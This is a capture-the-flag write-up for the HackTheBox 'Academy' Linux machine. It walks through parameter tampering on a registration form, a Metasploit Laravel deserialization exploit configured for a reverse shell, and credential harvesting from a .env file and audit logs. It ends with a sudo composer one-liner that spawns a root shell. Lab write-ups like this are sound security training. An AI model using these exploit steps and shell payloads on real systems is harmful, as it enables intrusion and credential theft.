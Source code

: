 ## Academy [HackTheBox]
> Mayank Srivastava | 10 Jan 2021 11:57 PM

A Simple WriteUp for HackTheBox machine.
```
Mahine Name : Academy
OS          : Linux
Difficulty  : Easy (But i rated as Medium)
IP Address  : 10.10.10.215
```

## Port Scanning

As usual running nmap against the webserver and found some open ports

```
# Nmap 7.91 scan initiated Sun Jan 10 22:50:59 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 10 22:52:09 2021 -- 1 IP address (1 host up) scanned in 70.47 seconds
```

Add ``` academy.htb ``` to ``` /etc/hosts ```


## Web Reconnaissance

So Let’s first enumerate port 80. start a gobuster scan and got something useful.

found three intersting php pages.

```
index.php
register.php
admin.php
```
First get register on the platform. After getting register page automatically
redirect to ```login.php```, nothing intersting found on the login.php
but checking in the source code of the web page ``` register.php ```
found a ```hidden html input element``` which is set to ```roleid=0```.
intercepting with burpsuite changed ```roleid=1``` and again redirect to ```login.php ```
But at this time repeated the same process but instead of going to ```login.php```
decided to open ```admin.php``` and login with registered credentials and got
a Foothold. After login with credentials seen a new sub-domain on the page.
so added to ```dev-staging-01.academy.htb --> /etc/hosts```.

Looking around the pages i think this Laravel framework  and with the page
information like APP_NAME="Laravel" and APP_KEY="**********" got confirmation
that Laravel framework.

Searching in the ```exploitdb``` and found the version of Laravel is vulnerable
to ```object deserialization and command execution``` and also find a metasploit
module ``` exploit(unix/http/laravel_token_unserialize_exec) ```.

## Steps to exploit
```
msfconsole
use exploits/unix/http/laravel_token_unserialize_exec
set RHOST <rhost>
set RPORT <rport>
set APP_KEY <base64_string>
set VHOSTS <add sub-domain.academy.htb>
set LHOST <your_local_htb_address>
set LPORT 4444
exploit
```

## Horizontal Privilege Escalation

Listing the Home directory we can see lots of users. There are two mentions
users ```cry0l1t3``` and ```mr3bn```. we have to escalate our privilege
horizontally to user ```cry0l1t3```. Search for Laravel import files like ```.env```
All the environment variables are declared in the ```.env``` file which includes
the parameters required for initializing the configuration, so we have advantage
to get the password of user and fortunately we got one. we can cat ```user.txt```
located in ```/home```.

user ```cry0l1t3``` is not sudoers lists but we have another user ```mr3bn```
let's find ``` mr3bn``` user password, after searching the files and seen the
user is in the ```adm```, move to ```/var/log/audit``` and search for the mr3bn
credentials, and found credentials in hex format decrypt it and switch user ```mr3bn```

…and check what sudo privilege ```mr3bn``` has

the user ```mr3bn``` run ```(ALL) /usr/bin/composer``` composer have SUID bit
permission we can following command as user to get root shell.
```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
Now we have ROOT shell. grab the root.txt submit on HackTheBox.
